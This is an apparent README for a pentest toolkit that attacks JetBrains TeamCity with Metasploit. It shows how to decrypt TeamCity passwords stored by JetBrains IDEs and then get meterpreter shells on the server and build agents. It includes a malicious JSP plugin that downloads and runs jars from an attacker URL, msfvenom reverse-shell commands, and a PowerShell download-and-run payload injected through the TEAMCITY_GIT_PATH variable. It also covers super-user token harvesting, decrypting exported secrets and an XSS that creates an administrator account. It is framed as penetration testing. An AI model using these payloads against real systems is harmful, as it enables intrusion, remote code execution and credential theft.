# Pentest TeamCity using Metasploit

**TL;DR: Obtain passwords from [JetBrains IDE](https://www.jetbrains.com/) (like IntelliJ or PyCharm) and use those credentials inside [TeamCity Continuous Integration Server](https://www.jetbrains.com/teamcity/) in order to get meterpreter session on server and build agents using metasploit by [Kacper Szurek](https://security.szurek.pl/)**.








# Introduction
Let's assume that you are doing penetration testing inside software company which uses Jetbrains stack. You are using metasploit and obtain meterpreter session on developer computer.

What can you do next? There is one article about TeamCity pentesting by [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/12/week-of-continuous-intrusion-tools-day-2.html) from 2015.

In this post I combine multiple techniques from [Security Notes](https://confluence.jetbrains.com/pages/viewpage.action?pageId=74845225#HowTo...-TeamCitySecurityNotes) and [BugTrack](https://youtrack.jetbrains.com/issues/TW?q=%23%7BSecurity%20Problem%7D%20) and put them into Metasploit module.

Note:
**I don't use any 0 days here. For every action you need valid TeamCity credentials.**

I am not responsible for any damage caused by this script. For data safety use with `set CLEANUP false`.

Tested on `TeamCity 2017.2.1 (build 50732)`.

# Table of contents

* [Installation](#installation)
* [Obtain passwords from JetBrains IDE](#obtain-passwords-from-jetbrains-ide)
  * [JetBrains metasploit module](#jetbrains-metasploit-module)
* [Pentest TeamCity Server](#pentest-teamcity-server)
  * [Shell on server](#shell-on-server)
  * [Shell on build agents](#shell-on-build-agents)
  * [Shell on Windows build agents](#shell-on-windows-build-agents)
  * [Super user](#super-user)
  * [Saved credentials](#saved-credentials)
  * [Administrator account using XSS](#administrator-account-using-xss)
  * [Guest user](#guest-user)
  * [TeamCity metasploit module](#teamcity-metasploit-module)
* [Troubleshooting](#troubleshooting)

# Installation

For decoding KeePass database we need [kdbx](https://github.com/rumtid/kdbx.rb/) Ruby library.

1. Find gem file: `find / -name "metasploit-framework.gemspec"`
2. Edit, for Kali Linux it's: `vim /usr/share/metasploit-framework/metasploit-framework.gemspec`
3. Add: `spec.add_runtime_dependency 'kdbx', '0.2.0'`
4. `cd /usr/share/metasploit-framework/ && bundle install`

Now you can:

1. `mkdir ~/.msf4/modules/exploits && mkdir ~/.msf4/modules/post`
2. Copy `teamcity.rb` and `serverplugin.zip` to `~/.msf4/modules/exploits`
3. Copy `jetbrains.rb` to `~/.msf4/modules/post`
4. Run Metasploit console `msfconsole`
5. Reload plugins `reload_all`

# Obtain passwords from JetBrains IDE
TeamCity can be easily integrated with all JetBrains IDE using [plugin](https://plugins.jetbrains.com/plugin/1820-teamcity-integration).



If `Remember me` option is used, passwords are store using `IntelliJ Platform Credentials Store API`. You can find source code [here](https://github.com/JetBrains/intellij-community/tree/master/platform/credential-store).

Decryption routine on Windows looks like this:


1. `pdb.pw` file is [decrypted](https://github.com/JetBrains/intellij-community/blob/master/platform/credential-store/src/windows/WindowsCryptUtils.java#L88) using Windows [CryptUnprotectData](https://msdn.microsoft.com/pl-pl/library/windows/desktop/aa380882.aspx). This means that only user whose encrypt data can decode them.
2. Blob is decrypted using AES-128-CBC with [static password](https://github.com/JetBrains/intellij-community/blob/master/platform/credential-store/src/KeePassCredentialStore.kt#L236). This passwords [doesn't change](https://github.com/JetBrains/intellij-community/blame/master/platform/credential-store/src/KeePassCredentialStore.kt#L236) and is the same for every product and installation.
3. `c.kdbx` KeePass database can be now decrypted using `Master Password` from point 2
4. Passwords are [xored](https://github.com/JetBrains/intellij-community/blob/master/platform/platform-api/src/com/intellij/openapi/util/PasswordUtil.java#L33) using `0xDFAA`

By default `Master Password` is random. It can be changed inside options:



But this doesn't change anything.

It only means that KeePass database `c.kdbx` will be encrypted using different password. Local user can still easily obtain this password from `pdb.pw` file.

## JetBrains metasploit module

Let's assume that you have valid Meterpreter session with `#1`

```
use post/jetbrains
set SESSION 1
exploit
```

Output looks like this:

```
msf exploit(multi/handler) > use post/jetbrains
msf post(jetbrains) > set session 5
session => 5
msf post(jetbrains) > exploit

[*] Running as user 'WIN10\root'...
[*] Profile path: C:\Users\root\
[*] Found potential JetBrains dir: .PyCharm2017.2
[*] Found pdb file: C:\Users\root\.PyCharm2017.2\config\pdb.pwd
[*] Found kdbx file: C:\Users\root\.PyCharm2017.2\config\c.kdbx
[*] CryptUnprotectData successful
[*] IV length: 16
[*] Master password: yrEHFsgqLasoN87/fuH8TbME5Vn1OMmdRiTy+B05s9M
[*] TeamCity: http://my_teamcity_server.local
[*] Username: my_teamcity_login
[*] Password: my_teamcity_password
[*] Post module execution completed
```

# Pentest TeamCity Server

Right now you have TeamCity credentials from [JetBrains metasploit module](#jetbrains-metasploit-module). Based on current [user role](https://confluence.jetbrains.com/display/TCD10/Role+and+Permission) you can:

## Simple Authorization Mode

|  | [Shell on server](#shell-on-server) | [Shell on build agents](#shell-on-build-agents) | [Super user](#super-user) | [Saved credentials](#saved-credentials)
|:---:|:---:|:---:|:---:|:---:|
Administrator | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: <br>For all projects
Logged-in user | :x: | :heavy_multiplication_x: <br>[only on Windows agents](#shell-on-windows-build-agents) | :x: | :x:
Guest user | :x: | :x: | :x: | :x:

## Per-Project Authorization Mode:

|  | [Shell on server](#shell-on-server) | [Shell on build agents](#shell-on-build-agents) | [Super user](#super-user) | [Saved credentials](#saved-credentials)
|:---:|:---:|:---:|:---:|:---:|
System admin | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: <br>For all projects
Project admin | :x: | :heavy_check_mark: | :x: | :heavy_check_mark:
Project developer | :x: | :heavy_multiplication_x: <br>[only on Windows agents](#shell-on-windows-build-agents) | :x: | :x:
Project viewer | :x: | :x: | :x: | :x:

Please note that metasploit module doesn't support custom roles.

## Shell on server

TeamCity can be easily extended using [plugins](https://plugins.jetbrains.com/teamcity).



Using this functionality it's possible to create malicious plugin which will run meterpreter session.

  1. Create malicious plugin using [this tutorial](https://confluence.jetbrains.com/display/TCD10/Getting+Started+with+Plugin+Development).
  Inside `Hello.jsp` put:

  ```java
  <%@ page import="java.io.File" %>
  <html>
  <body>
  OKK
  <%
      String file_path = System.getProperty("java.io.tmpdir") + File.separator + request.getParameter("file_path");
      String java_path = System.getProperty("java.home") + File.separator + "bin" + File.separator + "java";
  %>
  <%= file_path %>
  <%= java_path %>
  <%
      try {
          org.apache.commons.io.FileUtils.copyURLToFile(new java.net.URL(request.getParameter("file_url")), new File(file_path));
          ProcessBuilder pb = new ProcessBuilder(java_path, "-jar", file_path);
          Process p = pb.start();
      } catch (Exception x) { x.printStackTrace(System.out); }
  %>

  </body>
  </html>
  ```

  This will allow download and execute meterpreter. Compiled `.jar` file is [here](https://github.com/kacperszurek/pentest_teamcity/raw/master/exploits/serverplugin.zip).

  2. Go to `Server Administration->Diagnostics->Browse Data Directory` and upload plugin to `plugins` directory. (http://teamcity/admin/admin.html?item=diagnostics&tab=dataDir)

  

  3. Restart server using `Server Administration->Diagnostics->Troubleshooting->Restart server` (http://teamcity/admin/admin.html?item=diagnostics&tab=dumps)

  

  4. Now you can execute any `.jar` file using http://teamcity/demoPlugin.html?file_url=http://attacker/my_malicious.jar&file_path=random_name.jar

## Shell on build agents

A [TeamCity Build Agent](https://confluence.jetbrains.com/display/TCD10/Build+Agent) is a piece of software which listens for the commands from the TeamCity server and starts the actual build processes. It is installed and configured separately from the TeamCity server. An agent can be installed on the same computer as the server or on a different machine.

Exploitation looks like this:



In simple words: we generate java meterpreter which is hosted on git server. Then we create build configuration which downloads our meterpreter from git server and run it on agents using command line.

1\. Generate meterpreter payload: `msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=4444 -f jar > meterpreter.jar`

2\. Host `meterpreter.jar` on Git Server (for example using https://gogs.io/)

3\. If you have `System Administrator` privileges you can create new project (http://teamcity/admin/createObjectMenu.html?projectId=_Root&showMode=createProjectMenu). If you are `Project Developer` you need to edit project for which you have access.



4\. Add VCS root to you project using data from point 2



5\. Create new build configuration



6\. Add build step to build configuration



| Key | Value |
| --- | --- |
|Runner type|Command line|
|Execute step|Always, even if build stop command was issued|
|Run|Executable with parameters|
|Command executable|%teamcity.agent.jvm.java.home%/bin/java|
|Command parameters|-jar %system.teamcity.build.checkoutDir%/your_jar_file_from_git.jar|


7\. Prepare metasploit multi handler:

  ```
  use exploit/multi/handler
  set payload java/meterpreter/reverse_tcp
  set lport 4444
  set lhost 192.168.1.11
  exploit
  ```

8\. Run personal custom build on all compatible agents



## Shell on Windows build agents

By default `Project Developer` cannot modify/create build steps.

So it's not possible to add and execute our malicious command line.

We can try to bypass this on Windows using [Custom environment variables ](https://confluence.jetbrains.com/display/TCD10/Predefined+Build+Parameters#PredefinedBuildParameters-AgentEnvironmentVariables). How?

Teamcity supports [git checkout on agent](https://confluence.jetbrains.com/display/TCD10/VCS+Checkout+Mode).

Before build step execution, agent is downloading newest data from git server:

```java
path = (String)build.getSharedBuildParameters().getEnvironmentVariables().get("TEAMCITY_GIT_PATH");
if (path != null)
{
  Loggers.VCS.info("Using git specified by TEAMCITY_GIT_PATH: " + path);
}
else
{
  path = defaultGit();
  Loggers.VCS.info("Using default git: " + path);
}
```

Agent is checking if environment variable `TEAMCITY_GIT_PATH` exist. If yes, it's used as path for git binary.

In TeamCity Project Developer can run build for which he has access to and specify custom environment variables.

So we are setting `env.TEAMCITY_GIT_PATH` to:

```
"C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('path_to_http_server_with_meterpreter')), '%system.teamcity.build.tempDir%/meterpreter.jar');Start-Process -FilePath '%teamcity.agent.jvm.java.home%/bin/java.exe' -ArgumentList '-jar', '%system.teamcity.build.tempDir%/meterpreter.jar';"
```



In build logs this looks like this:

```
[2018-01-30 20:54:55,342]   INFO -      jetbrains.buildServer.VCS - Using git specified by TEAMCITY_GIT_PATH: "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('encoded_url')), 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar');Start-Process -FilePath 'C:\teamcity\jre/bin/java.exe' -ArgumentList '-jar', 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar';"

[2018-01-30 20:54:55,343]   INFO -      jetbrains.buildServer.VCS - [c:\TeamCity\buildAgent\bin\.]: "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('encoded_url')), 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar');Start-Process -FilePath 'C:\teamcity\jre/bin/java.exe' -ArgumentList '-jar', 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar';" version
[2018-01-30 20:55:02,718]   WARN -      jetbrains.buildServer.VCS - '"C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('encoded_url')), 'C:\teamcity\buildAgent\temp\buildTmp/.jar');Start-Process -FilePath 'C:\teamcity\jre/bin/java.exe' -ArgumentList '-jar', 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar';" version' command failed.
exit code: 1
stderr: version : The term 'version' is not recognized as the name of a cmdlet, functio
n, script file, or operable program. Check the spelling of the name, or if a pa
th was included, verify that the path is correct and try again.
At line:1 char:368
+ ... ar', 'C:\teamcity\buildAgent\temp\buildTmp\meterpreter.jar.jar'; version
+                                                                   ~~~~~~~
    + CategoryInfo          : ObjectNotFound: (version:String) [], CommandNotF
   oundException
    + FullyQualifiedErrorId : CommandNotFoundException

```

## Super user

TeamCity has something called [super user account](https://confluence.jetbrains.com/display/TCD10/Super+User). It allows you to access the server UI with System Administrator permissions if you do not remember the credentials or need to fix authentication-related settings.

If you have `System Administrator` privileges go to `Server Administration->Diagnostics->Server logs->teamcity-server.log` and search for string `Super user authentication token` (http://teamcity/admin/admin.html?item=diagnostics&tab=logs&file=teamcity-server.log):

```
[2018-02-06 17:26:40,697]   INFO -   jetbrains.buildServer.SERVER - Super user authentication token: "6221479178183012781". To login as Super user use an empty username and this token as a password on the login page.
```

Now you can login using: `http://teamcity/login.html?super=1`

## Saved credentials

TeamCity stores things like `VCS root passwords`, `password parameters` or `SSH keys` in encrypted form and doesn't show it's contents on web or api interface.

But it can be bypassed using `export` function. Go to **Your project->Settings Export->Export**


Those files looks like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" uuid="b7c3d616-ddd2-456c-b80d-95d0761bad39" xsi:noNamespaceSchemaLocation="http://www.jetbrains.com/teamcity/schemas/2017.2/project-config.xsd">
  <name>exploiter</name>
  <parameters />
  <project-extensions>
    <extension id="PROJECT_EXT_2" type="OAuthProvider">
      <parameters>
        <param name="displayName" value="Docker Registry" />
        <param name="providerType" value="Docker" />
        <param name="repositoryUrl" value="https://docker.io" />
        <param name="secure:userPass" value="zxxyour_encrypted_passwords" />
        <param name="userName" value="my_user_name" />
      </parameters>
    </extension>
  </project-extensions>
  <cleanup />
</project>
```

Encrypted strings starts with `zxx` and are encoded using [DES with static key](http://www.exfiltrated.com/research/teamcity-secret-decrypt.py).

## Administrator account using XSS

As we can read in [Teamcity Bug Tracker #TW-27206](https://youtrack.jetbrains.com/issue/TW-27206): `Malicious data in build artifacts can initiate XSS attack`.

Currently, all .html (and some other) files from build artifacts are rendered in the browser on clicking on them.

I create [small code snippet](https://github.com/kacperszurek/pentest_teamcity/blob/master/artifacts_xss.html) which is trying to create new administrator account.

How this attack may looks like? We are trying to persuade Administrator to visit our malicious artifact which is available in url like this `http://localhost:8123/repository/download/Exploiter_Builder/83:id/our_malicious_artifact.html`.



## Guest user
TeamCity allows you to turn on [guest login](https://confluence.jetbrains.com/display/TCD10/Guest+User) which allows anonymous access to the TeamCity web UI.

A server administrator can enable guest login on the **Administration | Authentication page**.

You can use this for obtaining build artifacts.

## TeamCity metasploit module

Basic usage:

```
use exploit/teamcity
set RHOST 192.168.1.1
set RPORT 8111
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST 192.168.1.118
set LPORT 4444
set USERNAME your_user_name
set PASSWORD your_password
exploit
```

Output looks like this:


Additional options:

| Name | Description |
|:---:|:---:|
|PROJECT_ID|Specify project ID, by default it will create new random project|
|BUILD_TYPE_ID|Specify build type ID, by default it will create new random build type|
|VCS_ID|Specify VCS ID, by default it will create new random VCS|
|CLEANUP|Delete created project/build/VCS root|
|SERVER_PLUGIN|Path to [serverplugin.zip](https://github.com/kacperszurek/pentest_teamcity/raw/master/exploits/serverplugin.zip)|
|GIT_PATH|Path to GIT directory|

# Troubleshooting

  1. I cannot load Metasploit modules

  Double check if you copy `teamcity.rb` to `~/.msf4/modules/exploits` and `jetbrains.rb` to `~/.msf4/modules/post` directory.
  Metasploit requires that exploit modules are inside `exploits` dir and post modules are inside `post` dir.

  2. Warning! The following modules could not be loaded! LoadError cannot load such file -- kdbx

  Did you install [kdbx module](#installation)? If yes, exit Metasploit and run it again. Use `reload_all` command.

  3. I cannot get passwords from IDE which is installed on Mac/Linux

  Currently only Windows is supported. Sorry.

  4. Post failed: Rex::Post::Meterpreter::RequestError stdapi_railgun_api: Operation failed: 1

  Probably you are using java meterpreter. It doesn't have some important api. Migrate to `windows/meterpreter/reverse_tcp` and try again.

  5. Running as SYSTEM, cannot decrypt data

  Because passwords are encrypted using `CryptUnprotectData` API, decoding function needs to run under normal user account context.

  6. I don't get [shell on server](#shell-on-server)

  Run exploit second time.

  7. `teamcit.rb` not working even if current user has enough privileges

  This module doesn't support custom roles.

  8. Cannot find git inside %path%. Please change GIT_PATH

  We need `git` and `git-upload-pack` binary for setup Git Server which will be hosting our meterpreter. I use idea from [here](http://stewartjpark.com/2015/01/02/implementing-a-git-http-server-in-python.html).

    ```
    set GIT_PATH /your/path/to/git/dir
    ```

  9. Cannot login as `username:password`

  Double check credentials:

    set USERNAME your_user_name
    set PASSWORD your_password

  10. Cannot find server plugin: %path%. Please modify SERVER_PLUGIN

  Specify where [serverplugin.zip](https://github.com/kacperszurek/pentest_teamcity/raw/master/exploits/serverplugin.zip) is stored

    set SERVER_PLUGIN /your/path/to/serverplugin.zip

  11. [-] Exploit failed: Rex::RuntimeError The supplied resource  is already added.

  Kill background jobs using `jobs -K`

  12. Please bind LHOST to specific IP address, no to 0.0.0.0

  Bind to specific IP address, i.e.:

  ```
  use LHOST 192.168.1.123
  ```

  13. Exploit aborted due to failure: unknown: Cannot modify %project_name%

  You don't have permissions for specific project.
  See for which project you have access to, ie:

  ```
  You can modify only following projects: ["test", "second"]
  ```

  and then specify project id:

  ```
  set PROJECT_ID test
  ```

  14. Why only `java/meterpreter/reverse_tcp` is available?

  Because it's portable. Feel fry to modify `is_payload_compatible?` function.

  15. Other problems

  Enable debugging:

    set HttpTrace 1
    set LogLevel 3
